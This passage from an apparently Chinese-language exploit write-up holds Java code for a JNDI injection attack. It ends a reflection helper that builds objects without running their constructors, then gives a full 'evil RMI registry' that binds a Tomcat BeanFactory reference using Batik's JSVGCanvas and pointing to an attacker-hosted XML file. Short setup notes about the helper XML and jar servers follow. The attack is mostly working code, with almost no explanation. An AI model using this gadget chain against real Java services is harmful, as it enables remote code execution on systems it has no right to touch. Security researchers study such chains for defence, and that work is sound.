        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }


}

```

rmi服务，用jdk8起即可

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("org.apache.batik.swing.JSVGCanvas", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("URI", "http://localhost:8886/1.xml"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("remoteobj", referenceWrapper);
    }
}

```

xmlserver和jarserver用项目中即可，记得更换成jdk17

​

​

​

​
